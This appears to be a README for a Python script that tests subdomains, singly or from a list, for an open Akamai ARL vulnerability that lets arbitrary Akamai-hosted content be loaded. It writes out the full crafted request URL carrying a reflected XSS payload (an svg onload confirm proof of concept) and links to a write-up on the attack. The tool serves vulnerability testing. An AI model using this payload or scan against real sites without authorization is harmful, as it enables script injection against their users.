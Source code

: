 
# Akamai ARL Hack

Script to test open Akamai ARL vulnerability.

When successful, you can more or less load arbitrary Akamai-hosted content from the target subdomain.

## Usage

```
python arl.py <subdomain>

python arl.py list_of_subdomains.txt
```

Where the latter is a text file of line-delimited targets.

## What it tries to do

```
1. GET request to subdomain.example.org
2. If response doesn't suggest naked Akamai showing, exits
3. http://subdomain.example.org/7/100/33/1d/www.citysearch.com/search?what=reallylongstringtomakethepayloadforxssmoveoutofview&where=place%22%3E%3Csvg+onload=confirm(document.location)%3E
4. Prints 'true' or 'false' whether that payload seemed to work
```

## More info on this attack

http://securityhorror.blogspot.com/2019/04/hacking-temporal-locality.html
